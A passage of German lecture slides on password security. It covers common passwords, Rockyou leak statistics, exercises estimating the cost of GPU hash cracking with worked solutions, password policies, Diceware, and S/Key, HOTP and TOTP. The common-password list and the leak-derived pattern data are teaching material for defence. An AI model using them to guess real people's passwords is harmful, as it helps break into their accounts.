  - szenetypisch:  ``acab``, ``1888``, ``1488``\ [#]_, oder bestimmte Marken (z. B. Gucci, Ferrari), …
  - privates Umfeld: Namen von Kindern, Eltern, Hunden, Geburtsort, Adresse, …

.. [#] ``14`` oder ``1488`` ist ein numerischer Code für die vierzehn Worte des David Eden Lane.
        (Er war ein Mitbegründer der Terrororganisation *The Order*, die für die Vorherrschaft der weißen Rasse in den USA kämpfte.)

Häufige Passworte
--------------------------

Eine gute Quelle für das Studium von Passwörtern sind sogenannte *Leaks* oder auch Listen mit gängigen Passwörtern. Zum Beispiel `Becker's Health IT 2023 <https://www.beckershospitalreview.com/cybersecurity/30-most-common-passwords-of-2023.html>`__:

.. class:: columns

-       123456

        password

        123456789

        12345

        12345678

        qwerty

        1234567

        111111

        1234567890

        123123

-       abc123

        1234

        password1

        iloveyou

        1q2w3e4r

        000000

        qwerty123

        zaq12wsx

        dragon

        sunshine

-       princess

        letmein

        654321

        monkey

        27653

        1qaz2wsx

        123321

        qwertyuiop

        superman

        asdfghjkl

.. supplemental::

    **Hinweise**

    - Die Listen ändern sich in der Regel von Jahr zu Jahr nicht wesentlich.
    - Die konkrete Methodik ist oft fragwürdig; in der Gesamtheit aber dennoch aussagekräftig.

Die Struktur von Passwörtern in Rockyou
-----------------------------------------------------------

.. container::

    Hier haben wir alle **Kleinbuchstaben auf l**, **Großbuchstaben auf u**, **Ziffern auf d** und **Sonderzeichen auf s** abgebildet.

.. csv-table::
    :align: left
    :width: 100%
    :class: no-table-borders s-font-size-80

    llllllll, "4,8037%", lllllllldd, "1,4869%", dddddddddddd, "0,2683%", ddddddll, "0,1631%"
    llllll, "4,1978%", lllllld, "1,3474%", lllddddd, "0,2625%", lllllls, "0,1615%"
    lllllll, "4,0849%", llllllld, "1,3246%", lllllllllldd, "0,2511%", ddddlll, "0,1613%"
    lllllllll, "3,6086%", llllllllllll, "1,3223%", llllllllllllllll, "0,2340%", dlllllll, "0,1583%"
    ddddddd, "3,4003%", llldddd, "1,2439%", lllldddddd, "0,2322%", dllllll, "0,1575%"
    dddddddddd, "3,3359%", llllldddd, "1,2109%", llddddd, "0,2270%", llllddddd, "0,1560%"
    dddddddd, "2,9878%", lllllldddd, "1,1204%", uuuuuudd, "0,2189%", dddddddl, "0,1557%"
    lllllldd, "2,9326%", lllllllld, "1,1168%", ddddll, "0,2169%", uuuudd, "0,1551%"
    llllllllll, "2,9110%", lllllddd, "1,0633%", lddddddd, "0,2064%", lllllddddd, "0,1395%"
    dddddd, "2,7243%", llllllddd, "0,9225%", ddddddddddddd, "0,2017%", ddllllll, "0,1391%"
    ddddddddd, "2,1453%", llllllllld, "0,9059%", ullllldd, "0,1930%", ulllll, "0,1379%"
    llllldd, "2,0395%", lllll, "0,8793%", ddddllll, "0,1905%", uuuuuuuuuu, "0,1378%"
    llllllldd, "1,9092%", lllllllllllll, "0,8334%", uuuuuuuuu, "0,1886%", llllllls, "0,1374%"
    lllllllllll, "1,8697%", llllld, "0,8005%", uuuuudd, "0,1815%", lllllllllld, "0,1345%"
    lllldddd, "1,6420%", llllddd, "0,7759%", lllllllllddd, "0,1808%", llllllllllldd, "0,1344%"
    lllldd, "1,5009%", ddddddddddd, "0,7524%", llllllllldddd, "0,1725%", …, …

.. supplemental::

    Analyse auf Grundlage des „berühmten“ Rockyou-Lecks.

Die Zusammensetzung von Passwörtern verstehen
----------------------------------------------

.. story::

    .. container:: incremental

        Analyse des ersten/original *Rockyou* Leaks.

        .. csv-table::
            :class: borderless booktabs s-font-size-90
            :header: ∑ Passworte, 14.334.851, "100%"

            Pins, 2.346.591, "16,37%"
            Passworte mit Buchstaben, 11.905.977, "83,34%"

    .. container:: incremental

        Analyse der Passworte mit Buchstaben:

        .. csv-table::
            :class: borderless booktabs s-font-size-90
            :width: 100%
            :header: "Kategorie", "Absolut", "Prozentual", "Beispiele"

            E-Mails, 26.749, "0,22%", me\ |at|\ me.com, , ,
            Zahlen gerahmt von Buchstaben, 35696, "0,30%", a123456a, , ,
            Leetspeak, 64.672, "0,54%", G3tm0n3y, , ,
            Patterns, 124.347, "1,04%", lalala, , ,
            Reguläre oder Populäre Wörter, 4.911.647, "**41,25%**", princess, iloveu, ,
            Sequenzen, 5.290, "0,04%", abcdefghij, , ,
            keyboard walks (de/en), 14.662, "0,12%", q2w3e4r, , ,
            Einfache Wortkombinationen, 535.037, "4,49%", pinkpink, sexy4u, te amo,
            Komplexe Wortkombinationen, 5.983.259, "**50,25%**", Inparadise, kelseylovesbarry, ,
            *<Rest>*, 204.618, "1,72%", j4**9c+p, i(L)you, p\ |at|\ 55w0rd

.. supplemental::

    .. rubric:: Hinweise

    Die Sprachen, die bei der Identifizierung der Wörter berücksichtigt wurden, waren: "de, en, fr, es, pt, nl".

    *Populäre Wörter* sind Wörter, die auf Twitter oder Facebook verwendet wurden, z. B. "iloveu", "iluvu", ....

.. class:: transition-move-left exercises

Gedankenexperiment
---------------------

.. exercise:: Kosten und Aufwand für Passwortwiederherstellung

    Sie wollen einen *SHA-256* angreifen und sie haben 100 Nvidia 4090 GPUs. Jede GPU hat eine Hash-Rate von ~22GH/s (mit Hashcat 6.2.6) und benötigt ~500 Watt pro Stunde (Wh). Der verwendete Zeichensatz besteht aus 84 verschiedenen Zeichen (z. B. a-z, A-Z, 0-9, <einige Sonderzeichen>).

    1. Wie lange dauert es, ein 10-stelliges Passwort zu ermitteln (Worst Case)?

    2. Wie viel Geld wird es Sie kosten, ein 10-stelliges Passwort zu knacken (Worst Case), wenn 1kWh 25ct kostet?

    3. Werden Sie im Laufe Ihres Lebens in der Lage sein, ein Passwort mit 12 Zeichen Länge zu ermitteln?

    .. solution::
        :pwd: Schlangsam

        Die Hashrate beträgt: :math:`100 \times (22 \times 10^9) H/s = 2.200.000.000.000 H/s`

        Die Dauer ist also: :math:`\frac{84^{10}H}{2.200.000.000.000 H/s} = 84^{10}H/(100 \times 22 \times 10^9 H/s)/(3600 \times 24 s/d) \approx 92d`

        Es dauert ca. 3 Monate (~2200 Stunden), um ein Passwort mit 10 Ziffern zu ermitteln!

        Es wird im schlimmsten Fall:

        :math:`2200h \times (500Wh/1000Wh) \times 0,25Eur/h \times 100  \approx 27000Eur`

        Stromkosten verursachen.

        Um ein Passwort mit 11 Ziffern zu finden, brauchen Sie 21 Jahre (worst-case).

        Um ein Passwort mit 12 Ziffern zu finden, brauchen Sie 21*84 Jahre (worst case).

.. class:: transition-move-left exercises

Gedankenexperiment
---------------------

.. exercise:: Verstehen des Suchraums

    Sie haben „ganz viele“ Grafikkarten und einen sehr schnellen Hash. Sie kommen auf eine Hashrate von 1 THash/Sekunde (:math:`1 \times 10^{12}`). Sie haben einen Monat Zeit für das Knacken des Passworts.
    Gehen Sie vereinfacht davon aus, dass Ihr Zeichensatz 100 Zeichen umfasst.

    Berechnen Sie den Anteil des Suchraums, den Sie abgesucht haben, wenn das Passwort 32 Zeichen lang sein sollte und Sie dies wissen. Drücken Sie den Anteil des abgesuchten Raums in Relation zu der Anzahl der Sandkörner der Sahara aus. Gehen Sie davon aus, dass die Sahara ca. 70 Trilliarden (:math:`70 \times 10^{21}`) Sandkörner hat.\ [#]_

    .. solution::
        :pwd: Fast-nichts!

        Suchraum: :math:`100^{32} = 10^{64}`

        Passworte in einem Monat:

        .. math::

            (1 \times 10^{12} {H \over s}) \times 60s \times 60min \times 24h \times 30d = \

            2.592.000.000.000.000.000 = \

            2,592 \times 10^{18} \

        da:

        .. math::

            2.592.000.000.000.000.000 \times (4 \times 10^{45}) \approx 10^{64}

        haben wir somit ca.

        .. math::

            1 \over 4 \times 10^{45}

        des Suchraums berechnet. Da die Sahara wohl nur ca. :math:`7 \times 10^{22}` Sandkörner hat, haben wir somit nicht mal ansatzweise ein Sandkorn berechnet. Sondern lediglich: :math:`1,75 \times 10^{-23}`.

        Oder ganz praktisch ausgedrückt: wir sind - je nach Theroie - frühestens **nach dem Ende des Universums** fertig - `Ende des Universums <https://www.welt.de/kmpkt/article177740494/Weltall-Wie-das-Ende-des-Universums-aussehen-koennte.html#:~:text=Das%20All%20dehnt%20sich%20immer,Gut%20zu%20wissen!>`__.

.. [#] `Astronom widerlegt die Sandkorn These (Welt.de) <https://www.welt.de/wissenschaft/weltraum/article7068474/Hobby-Astronom-widerlegt-die-Sandkorn-These.html>`__

Effekte von Passwortrichtlinien
---------------------------------------------------------------

Moderne Passwortrichtlinien (:eng:`Password Policies`) machen es unmöglich, ältere Leaks *direkt* zu nutzen.

*Beispiele:*

.. class:: incremental more-space-between-list-items

- Mindestanzahl von Zeichen (maximale Anzahl von Zeichen)
- Anforderungen an die Anzahl der Ziffern, Sonderzeichen, Groß- und Kleinbuchstaben
- Anforderungen an die Vielfalt der verwendeten Zeichen
- einige Passwörter (z. B. aus bekannten Leaks und Wörterbüchern) sind verboten
- ...

.. supplemental::

    Passwortrichtlinien extrem: `Password Game <https://neal.fun/password-game/>`__

    Die wichtigsten `NIST-Richtlinien <https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63b.pdf>`__ für Passwörter:

    - Mindestlänge von 8 Zeichen.
    - Keine Komplexitätsanforderung. Benutzer sollten auch die Möglichkeit haben, Leerzeichen einzufügen, um die Verwendung von Phrasen zu ermöglichen. Für die Benutzerfreundlichkeit [...] kann es von Vorteil sein, wiederholte Leerzeichen in getippten Passwörtern vor der Überprüfung zu entfernen.

Der Effekt von Passwortrichtlinien auf Passwörter
--------------------------------------------------

Reale Passwortrichtlinie:

    Nutze 1 Großbuchstabe, 1 Kleinbuchstabe, 2 Symbole, 2 Ziffern, 4 Buchstaben, 4 Nicht-Buchstaben

.. container:: incremental

    Exemplarisch beobachteter Effekt, wenn die Passwörter vorher einfacher waren und der Benutzer gezwungen wurde diese zu erweitern:

        Password11##

        Password12!!

    d. h. die Passworte werden mit möglichst geringem Aufwand erweitert.

Aufbau von Passwörtern - Zusammenfassung
------------------------------------------

.. class:: more-space-between-list-items

- Passwörter, die häufig eingegeben werden müssen, basieren in den allermeisten Fällen auf „echten“ Wörtern.
- Echte Wörter werden oft nicht unverändert verwendet, sondern nach einfachen Regeln umgewandelt, z. B. durch Anhängen einer Zahl oder eines Sonderzeichens, Veränderung der Groß-/Kleinschreibung, etc.

.. admonition:: Frage
    :class: incremental small

    Wie können wir gute Passwortkandidaten identifizieren/generieren, wenn ein *Leak* nicht ausreicht oder nur eine kleine Anzahl von Passwörtern getestet werden kann?

    .. container:: incremental

        Zum Beispiel dauert das Testen aller Passwörter von Rockyou...:

        ~13.000.000 Passworte / 5 Hashes/Sekunde ≈ 1 Monat

        ~13.000.000 Passworte / 5 Hashes/Stunde ≈ ~297 Jahre

Bewertung von Passworten
---------------------------

.. class:: far-smaller incremental

    - **Donaudampfschifffahrt**: Ist weder in Rockyou noch im Duden und auch nicht in den Corpora von Twitter und Facebook von 2022 zu finden.
    - **Passwort**: Nr. 93968 in Rockyou.
    - **password123**: Nr. 1348 in Rockyou.
    - **2wsx3edc4rfv**: So nicht in Rockyou, aber 1qaz\ *2wsx3edc4rfv* ist Nr. 143611 in Rockyou.
    - **Haus Maus**: In Rockyou ist lediglich hausmaus zu finden.
    - **iluvu**: Nr. 1472 in Rockyou.
    - **Emily060218**: Emily ist Nr. 35567 in Rockyou. Die Zahl ist ganz offensichtlich ein Datum: 6. Feb. 2018 und könnte ein Geburtsdatum, Hochzeitsdatum, oder ein für die Person vergleichbar bedeutends Datum sein.
    - **MuenchenHamburg2023!!!!***: Das Passwort ist zwar sehr lang aber es handelt sich vermutlich um zwei - für die entsprechende Person - bedeutende Orte. Die Zahl und die Sonderzeichen sind vermutlich auf eine Passwortrichtlinie zurückzuführen.
    - **hjA223dn4fw"üäKßß k`≤-~ajsdk**: 28 Stellen basierend auf einem Zeichensatz, der vermutlich ca. 192 Zeichen pro Stelle umfasst.
    - **Baum Lampe Haus Steak Eis Berg**: Es handelt sich um ein Passwort mit 30 Stellen, das vermutlich mit Hilfe von Diceware generiert wurde und 6 Worte umfasst.
    - **ME01703138541**: Namenskürzel und Telefonnummer.

.. supplemental::

    .. admonition:: Diceware

        Auch wenn dem Angreifer
        (a) bekannt ist, dass das Passwort mit Hilfe von Diceware generiert wurde,
        (b) die zugrundeliegende Wortliste vorliegt und
        (c) auch die Länge (hier 6 Worte) bekannt sein sollte, dann umfasst der Suchraum: :math:`(6^5)^6 \approx 2,21\times 10^{23}` Passwortkandidaten. Sollte man also mit einer Geschwindigkeit von 1 Billion Hashes pro Sekunde angreifen können, dann brauch man noch immer über 7000  Jahre für das Absuchen des vollständigen Suchraums.

        Beim klassischen Dicewareansatz umfasst das Wörterbuch :math:`6^5` Worte, da man mit einem normalen Würfel fünfmal Würfelt und dann das entsprechende Wort nachschlägt. Würde man zum Beispiel die folgenden Zahlen würfeln: 1,4,2,5,2. Dann würde man das Wort zur Zahl: 14252 nachschlagen.

Schwachstellen in Passwort-Managern
------------------------------------

.. epigraph::

    Das Bundesamt für Informationssicherheit (BSI) hat zusammen mit der Münchner Firma MGM Security Partners zwei Passwort-Manager im Rahmen des Projekts zur Codeanalyse von Open-Source-Software (Caos 3.0) auf mögliche Mängel überprüft. Die Tester wurden dabei vor allem bei Vaultwarden fündig.

    [...] "Vaultwarden sieht keinen Offboarding-Prozess für Mitglieder vor" [...] "Das bedeutet, dass die für den Datenzugriff notwendigen Master-Schlüssel in diesem Fall nicht ausgetauscht werden." Folglich besitze die ausscheidende Person, der eigentlich der Zugang entzogen werden sollte, weiterhin den kryptografischen Schlüssel zu den Daten der Organisation. [...]

    "Das Admin-Dashboard ist anfällig für HTML-Injection-Angriffe", haben die Prüfer zudem entdeckt (CVE-2024-39926, Risiko mittel).[...]

    -- 15.10.2024 - Heise.de `BSI: Forscher finden Schwachstellen in Passwort-Managern <https://www.heise.de/news/Passwort-Manager-BSI-berichtet-ueber-kritische-Schwachstellen-in-Vaultwarden-9982427.html>`__

Password Sniffing
---------------------

:In der Anfangszeit: unverschlüsselte Übertragung von Passwörtern (telnet, ftp, ...)
:In der Übergangszeit: Verwendung von Einmal-Passwörtern (S/Key, ...)
:Heute: Passwörter werden verschlüsselt übertragen (ssh, https, ...)

    Zusätzliche Absicherung durch Zwei-Faktor-Authentifizierung (basierend auf Einmalpassworten: TOTP, ...)

.. supplemental::

    Unverschlüsselte Passworte können leicht mittels eines Sniffers, der den Netzwerkverkehr mitschneidet (z. B. Wireshark), abgefangen werden.

Einmal-Passwörter
----------------------

Die Idee ist, dass Passwörter nur genau einmal gültig sind und nicht wiederverwendbar sind.

- Tokens (z. B. RSA SecurID)
- Codebuch: Liste von Einmal-Passwörtern, die das gemeinsame Geheimnis sind.
- S/Key: Passwort „wird mit einem Zähler kombiniert“ und dann gehasht.

Das S/Key Verfahren
------------------------------

Einmal-Passwort-System nach Codebuch-Verfahren.

.. deck::

    .. card::

        **Initialisierung**

        .. class:: incremental-list list-with-explanations

        1) Der Nutzer gibt sein Passwort :math:`W` ein; dies ist der geheime Schlüssel.

           (Sollte :math:`W` bekannt werden, dann ist die Sicherheit des Verfahrens nicht mehr gewährleistet.)
        2) Eine kryptografische Hash-Funktion :math:`H` wird n-mal auf :math:`W` angewandt, wodurch eine Hash-Kette von n einmaligen Passwörtern entsteht. :math:`H(W), H(H(W)), \dots, H^{n}(W)`
        3) Das initiale Passwort wird verworfen.
        4) Der Benutzer erhält die :math:`n` Passwörter, die in umgekehrter Reihenfolge ausgedruckt werden: :math:`H^n(W), H^{n-1}(W), ..., H(H(W)), H(W)`.
        5) Nur das Passwort :math:`H^n(W)`, das an erster Stelle der Liste des Benutzers steht, der Wert von :math:`n` und ggf. ein Salt, wird auf dem Server gespeichert.

    .. card::

        **Anmeldung**

        Identifiziere das letzte verwendete Passwort :math:`n`.

        .. class:: incremental-list

        - Der Server fragt den Nutzer nach dem Passwort :math:`n-1` (d. h. :math:`H^{n-1}(W)`) und übermittelt ggf. auch den Salt.
        - Der Server hasht das Passwort und vergleicht es dann mit dem gespeicherten Passwort :math:`H^n(W)`.
        - Ist das Passwort korrekt, dann wird der Nutzer angemeldet und der Server speichert das Passwort :math:`H^{n-1}(W)` als neues Passwort :math:`H^n(W)` und dekrementiert n.

.. supplemental::

    Im Original basiert S/Key auf der kryptographischen Hashfunktion MD4. Ein Austausch wäre aber selbstverständlich möglich!

    Intern verwendet S/KEY 64-bit Zahlen. Für die Benutzbarkeit werden diese Zahlen auf sechs kurze Wörter, von ein bis vier Zeichen, aus einem öffentlich zugänglichen 2048-Wörter-Wörterbuch (:math:`2048 = 2^{11}`) abgebildet. Zum Beispiel wird eine 64-Bit-Zahl auf "ROY HURT SKI FAIL GRIM KNEE" abgebildet.

HMAC-based one-time password (HOTP)\ [#]_
--------------------------------------------

- ermöglicht die Erzeugung von Einmal-Passwörtern auf Basis eines geheimen Schlüssels und eines Zählers; Parameter:

  .. class:: incremental-list

  - Ein kryptografisches Hash-Verfahren :math:`H` (Standard ist SHA-1)
  - einen geheimen Schlüssel :math:`K`, der eine beliebige Bytefolge ist
  - Ein Zähler :math:`C`, der die Anzahl der Iterationen zählt
  - Länge des Passworts: :math:`d` (6-10, Standardwert ist 6, empfohlen werden 6-8)

.. class:: incremental-list

- Zur Authentifizierung berechnen beide das Einmalpasswort (HOTP) und dann vergleicht der Server den Wert mit dem vom Client übermittelten Wert:

  .. container::

    Berechnung aus dem Schlüssel :math:`K` und dem Zähler :math:`C`:

        .. class:: incremental

        :math:`HOTP(K, C) = truncate(HMAC_H(K, C))`

        .. container:: incremental

                :math:`truncate(MAC) = extract31(MAC, MAC[(19 × 8 + 4):(19 × 8 + 7)])`

        .. class:: incremental

        :math:`HOTP\; value = HOTP(K, C)\; mod\; 10^d\qquad` (führende Nullen behalten!)

.. [#] https://www.rfc-editor.org/rfc/rfc4226

.. supplemental::

    :math:`truncate` verwendet die 4 niederwertigsten Bits des MAC als Byte-Offset :math:`i` in den MAC.
    Der Wert :math:`19` kommt daher, dass ein SHA-1 :math:`160` Bit hat und :math:`160/8 = 20` Byte.

    :math:`extract31` extrahiert 31 Bit aus dem MAC. Das höchstwertig Bit wird (wenn es nicht 0 ist) entsprechend maskiert.
    Eine Schwäche des Algorithmus ist, dass beide Seiten den Zähler erhöhen müssen und, falls die Zähler aus dem Tritt geraten, ggf. eine Resynchronisation notwendig ist.

Time-based one-time password (TOTP)\ [#]_
--------------------------------------------

- Erzeugung von zeitlich limitierten Einmal-Passwörtern (z. B. 30 Sekunden)

.. class:: incremental list-with-explanations

- Basierend auf einem vorher ausgetauschten geheimen Schlüssel und der aktuellen Zeit

  Z. B. Unix-Zeit in Sekunden (ganzzahlig) und danach gerundet auf 30 Sekunden.

- Es wird das HOTP Verfahren mit der Zeit als Zähler verwendet und entweder SHA-256 oder SHA-512 als Hashverfahren, d. h. TOTP :math:`value(K)` = HOTP :math:`value(K, C_T)`, wobei :math:`T` die „aktuelle Zeit“ ist.

  :math:`C_T = \lfloor { T - T_0 \over T_X } \rfloor`

  - :math:`T_X` ist die Länge eines Zeitintervalls (z. B. 30 Sekunden)
  - :math:`T` ist die aktuelle Zeit in Sekunden seit einer bestimmten Epoche
  - :math:`T_0` ist bei Verwendung der Unix-Zeit :math:`0`
  - :math:`C_T` ist somit die Anzahl der Dauern :math:`T_X` zwischen :math:`T_0` und :math:`T`

.. [#] https://www.rfc-editor.org/rfc/rfc6238

.. supplemental::

   Das Verfahren verlangt somit, dass die Uhren von Server und Client (hinreichend) synchronisiert sind.

Ein letztes Wort
-------------------

.. epigraph::

    **Why Government Workers, Military Planners Use Signal Now**

    This week's revelation that U.S. officials planned a recent military attack in Yemen on Signal highlights increasing use of the messaging app by U.S. government workers to communicate with colleagues, journalists, and family members without fear of monitoring or retaliation. The switch to Signal among federal workers and top government officials has raised concerns about transparency and the preservation of government correspondence and internal communications.

    -- 25.3.2025 - ACM Technews based on The Washington Post; Shira Ovide; Danielle Abril; Hannah Natanson; et al.
